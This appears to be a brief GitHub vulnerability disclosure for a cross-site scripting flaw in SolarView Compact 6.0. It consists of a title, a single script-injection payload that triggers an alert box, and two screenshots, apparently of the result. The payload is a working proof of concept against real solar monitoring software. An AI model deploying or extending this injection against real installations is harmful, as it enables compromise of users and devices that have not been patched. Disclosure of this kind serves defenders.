 # SolarView_Compact_6.0_xss

### payload
/"><script>alert("XSS")</script>

![image](https://user-images.githubusercontent.com/72059221/169168747-55426da3-9150-4266-b4e3-b0bcfbbdd410.png)


![image](https://user-images.githubusercontent.com/72059221/169169019-7905579b-cda9-4b42-b6d7-1b69c26ee9f7.png)
